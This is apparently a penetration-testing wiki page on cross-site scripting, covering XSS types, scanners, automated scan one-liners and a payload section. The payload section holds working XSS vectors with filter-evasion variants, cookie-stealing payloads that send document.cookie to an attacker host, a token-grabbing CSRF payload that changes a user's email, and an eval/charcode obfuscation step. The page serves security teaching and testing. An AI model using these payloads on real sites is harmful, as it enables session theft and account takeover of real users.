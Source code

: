 # XSS (Cross-Site Scripting)

## Theory

Cross-Site Scripting (XSS) is a security vulnerability that occurs when an application includes untrusted data in a web page. Attackers can inject malicious scripts into web pages viewed by other users. These scripts execute in the context of a user's browser, which can lead to a wide range of attacks, such as stealing cookies, session tokens, or sensitive data, defacing websites, or redirecting users to malicious sites.

There are three major types of XSS:

* **Stored XSS**: The injected payload is permanently stored on the server and served to other users when they access the page.
* **Reflected XSS**: The payload is included in the page as a result of a user action, like clicking on a malicious link or submitting a form.
* **DOM-based XSS**: while stored and reflected XSS attacks exploit vulnerabilities in the server-side code, a DOM-based XSS exploits client-side ones (e.g. JavaScript used to help dynamically render a page). DOM-based XSS usually affect user inputs that are temporarily reflected, just like reflected XSS attacks.

## Practice

### Tools

{% tabs %}
{% tab title="XSStrike" %}
[XSStrike](https://github.com/s0md3v/XSStrike) (Python) can be used to scan website for XSS

```bash
python xsstrike.py -u https://target.url/
```
{% endtab %}

{% tab title="Dalfox" %}
[Dalfox](https://github.com/hahwul/dalfox) is a powerful open-source XSS scanner and utility focused on automation.

```bash
# Scan an URL
dalfox url http://testphp.vulnweb.com/listproducts.php?cat=1

# From an URLs file
cat urls.txt | dalfox pipe
```
{% endtab %}

{% tab title="XSSer" %}
[XSSer](https://github.com/epsylon/xsser) (Python) is a tool that can detect, exploit and report XSS vulnerabilities on a web application

```bash
# --Cl : Crawl only local target(s)
# -c : Number of urls to crawl on target(s)
# --Cw: Deeping level of crawler: 1-5
# -s: show advanced statistics output results
# --auto: Inject a list of vectors provided by XSSer
# --xml: Export to XML
python xsser -u https://target.url -c 50 --Cw 1 --Cl -s --threads 5 --timeout 30 --retries 1 --delay 0 --auto --xml out.xml
```
{% endtab %}

{% tab title="toxssIn" %}
[toxssin](https://github.com/t3l3machus/toxssin) (Python) is an open-source penetration testing tool that automates the process of exploiting Cross-Site Scripting (XSS) vulnerabilities. It consists of an https server that works as an interpreter for the traffic generated by the malicious JavaScript payload that powers this tool (toxin.js).

```bash
# Generate certificates
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Start toxssin server
python3 toxssin.py -u https://your.domain.com -c /your/certificate.pem -k /your/privkey.pem
```

On the target side, XSS payload should looks like:

```html
<script url="https://your.domain.com/handler.js"></script>
```
{% endtab %}

{% tab title="One-Liners" %}
Here are some handy one-liners to automate XSS scans on domains using tools like [gau](https://github.com/lc/gau), [hakrawler](https://github.com/hakluke/hakrawler), [waybackurls](https://github.com/tomnomnom/waybackurls), [katana](https://github.com/projectdiscovery/katana), [uro](https://github.com/s0md3v/uro), [qsreplace](https://github.com/tomnomnom/qsreplace), [httpx](https://github.com/projectdiscovery/httpx), [Gxss](https://github.com/KathanP19/Gxss), [Dalfox](https://github.com/hahwul/dalfox), [Gospider](https://github.com/jaeles-project/gospider).

{% hint style="success" %}
It may be usefull for bug bounty hunting
{% endhint %}

{% hint style="info" %}
**domains.txt** -> text file containing domain names (ex: test.domain.com)

**urls.txt** -> text file containing URLs (ex: http://test.domain.com)
{% endhint %}

```bash
# HTTPX
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep -Ev "\.(jpeg|jpg|png|ico|gif|css|woff|svg)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"

# Dalfox
cat domains.txt | (gau || hakrawler || waybackurls || katana) | httpx -silent | Gxss -c 100 -p Xss | sort -u |grep http| dalfox pipe

# Curl
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable "\033[0m";done

# URLS and Dalfox
gospider -S urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe

# Dalfox, gf
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep '=' | gf xss | sed 's/=.*/=/' | sort -u | dalfox pipe
```
{% endtab %}
{% endtabs %}

### Enumeration - Find XSS Vulnerabilities

We have to identify input vectors that may not be properly sanitized and that are stored or reflected. For example:

* URI parameters for reflected and DOM-based XSS
* Other user inputs in forums, chats, comments, posts, and other stored content for stored XSS
* HTTP headers like Cookies (and even User-Agents in some cases)

We can input special characters and observe the output to determine if any of the special characters return unfiltered. The most common special characters used for this purpose include:

```
< > ' " { } ;
```

The following [website](https://transformations.jobertabma.nl/) (or [Github](https://github.com/jobertabma/transformations)) can assist in recognizing the alterations made to user inputs, which can aid in circumventing filters and modifications, enabling the exploitation of XSS vulnerabilities.

### Payloads

{% tabs %}
{% tab title="PoC" %}
Generally we will use following payloads as a proof of concept. It will open an alert window.

```html
// Classic Payloads
<script>alert('XSS');</script>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG onmouseover="alert('XSS')">
<<SCRIPT>alert("XSS");//<</SCRIPT>

// Useful payloads
<K OnPointerRawUpdate=alert(1)>
<K OnPointerMove=alert(1)>
\’/alert(1)//
<K ContentEditable AutoFocus OnFocus=alert(1)>
<Svg OnLoad=alert(1)>
<Img Src=//X55.is OnLoad=import(src)>
```
{% endtab %}

{% tab title="Stealing Cookies" %}
We may send back user cookies to our own webserver using following payloads

```html
<script>var i=new Image;i.src="http://ATTACKING_IP/?"+document.cookie;</script>
<img src=x onerror=this.src='http://ATTACKING_IP/?'+document.cookie;>
<img src=x onerror="this.src='http://ATTACKING_IP/?'+document.cookie; this.removeAttribute('onerror');">
```

On the attacking webserver, we may use [XSS-cookie-stealer.py](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py) to logs each inbound HTTP connection and all the cookies contained in that connection.

{% hint style="info" %}
[The HttpOnly flag](https://owasp.org/www-community/HttpOnly) instructs the browser to deny JavaScript access to the cookie. If this flag is set, we won't be able to steal the cookies.
{% endhint %}
{% endtab %}

{% tab title="CSRF" %}
We may use an XSS vulnerability to perform a CSRF (Cross-Site-Request-Forgery) and make actions on behalf of the user.

```html
#Exemple from https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

We may improve our payload for more reliability. First, compress it using [this website](https://jscompress.com/), and then past it as the following `encode_to_javascript` function argument&#x20;

```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Run the function and copy result (charcode) to our final payload

```html
<script>eval(String.fromCharCode(121,19,32 [...] 120,95,42,31))</script>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-community/attacks/xss/" %}

{% embed url="https://portswigger.net/web-security/cross-site-scripting" %}

{% embed url="https://www.thehacker.recipes/web/inputs/xss" %}
